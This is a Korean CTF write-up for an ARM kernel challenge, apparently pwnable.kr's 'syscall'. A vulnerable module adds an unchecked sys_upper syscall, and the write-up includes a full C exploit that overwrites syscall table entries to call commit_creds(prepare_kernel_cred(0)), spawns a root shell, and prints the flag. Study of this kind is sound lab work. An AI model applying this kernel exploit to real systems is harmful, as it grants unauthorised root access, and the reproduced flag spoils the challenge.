

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스코드를 확인해보자

```cpp
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

module_init으로 리눅스 디바이스 드라이버에 등록되고 initmodule함수가 호출된다.

그리고 SYS_CALL_TABLE에서 224번째에 sys_upper라는 함수를 등록한다.

sys_upper는 in이 a(0x61) ~ z(0x7a)이면 A(0x41) ~ Z(0x5a)로 변환한다.

이때, out을 in으로 덮을 수 있다는 점을 이용하여 commit_creds함수와 prepare_kernel_cred함수를 이용하여 root권한을 획득하자.

> [commit_creds & prepare_kernel_cred](https://wogh8732.tistory.com/308)

먼저 commit_creds와 prepare_kernel_cred의 주소를 확인하자.

```sh
cat /proc/kallsyms | grep "commit_creds"
8003f56c T commit_creds
cat /proc/kallsyms | grep "prepare_kernel_cred"
8003f924 T prepare_kernel_cred
```

주소를 보면 0x6c가 sys_upper함수의 if 문에 걸려 0x4c로 변경될 것이다. 따라서 0x60으로 덮어주자.

이때, 0x60에서 0x6c까지 0xc byte만큼 nop 슬라이딩을 해줘야한다.

다음은  mov r1, r1같은 arm architecture에서의 nop 슬라이딩이라고 한다.

    0xe1a01001, 0xe1a02002, 0xe1a03003, 0xe1a04004, 0xe1a05005, 0xe1a06006, 0xe1a07007, 0xe1a08008, 0xe1a09009, 0xe1a0a00a, 0xe1a0b00b

commit_creds함수와 prepare_kernel_cred함수는 인자 1개를 받으므로, syscall 테이블에서 인자 1개를 받은 함수의 테이블 번호를 찾아보자.

```sh
/ $ vi /usr/include/arm-linux-gnueabihf/asm/unistd.h

#define __NR_restart_syscall            (__NR_SYSCALL_BASE+  0)
#define __NR_exit                       (__NR_SYSCALL_BASE+  1)
#define __NR_fork                       (__NR_SYSCALL_BASE+  2)
#define __NR_read                       (__NR_SYSCALL_BASE+  3)
#define __NR_write                      (__NR_SYSCALL_BASE+  4)
#define __NR_open                       (__NR_SYSCALL_BASE+  5)
#define __NR_close                      (__NR_SYSCALL_BASE+  6)
                                        /* 7 was sys_waitpid */
#define __NR_creat                      (__NR_SYSCALL_BASE+  8)
#define __NR_link                       (__NR_SYSCALL_BASE+  9)
#define __NR_unlink                     (__NR_SYSCALL_BASE+ 10)
#define __NR_execve                     (__NR_SYSCALL_BASE+ 11)
#define __NR_chdir                      (__NR_SYSCALL_BASE+ 12)
#define __NR_time                       (__NR_SYSCALL_BASE+ 13)
#define __NR_mknod                      (__NR_SYSCALL_BASE+ 14)
#define __NR_chmod                      (__NR_SYSCALL_BASE+ 15)
#define __NR_lchown                     (__NR_SYSCALL_BASE+ 16)
                                        /* 17 was sys_break */
                                        /* 18 was sys_stat */
#define __NR_lseek                      (__NR_SYSCALL_BASE+ 19)
#define __NR_getpid                     (__NR_SYSCALL_BASE+ 20)
#define __NR_mount                      (__NR_SYSCALL_BASE+ 21)
... 생략
```

적당히 12번, 13번을 사용하여 exploit코드를 작성하자.

```cpp
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>

unsigned int** sct;
int main(){
    sct=(unsigned int**)0x8000e348;
    syscall(223,"\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1",0x8003f560);
    syscall(223,"\x24\xf9\x03\x80",&sct[12]); // prepare_kernel_cred
    syscall(223,"\x60\xf5\x03\x80",&sct[13]); // commit_creds
    syscall(13,syscall(12,0)); // commit_creds(prepare_kernel_cred(0))
    system("/bin/sh");
    return 0;
}
```

FLAG를 획득하자.

```sh
/ $ cd /tmp
/tmp $ vi test.c
/tmp $ gcc -o test test.c
/tmp $ ./test
/bin/sh: can't access tty; job control turned off
/tmp # id
uid=0 gid=0
/tmp # cat /root/flag
Congratz!! addr_limit looks quite IMPORTANT now... huh?
```


# **FLAG**

**Congratz!! addr_limit looks quite IMPORTANT now... huh?**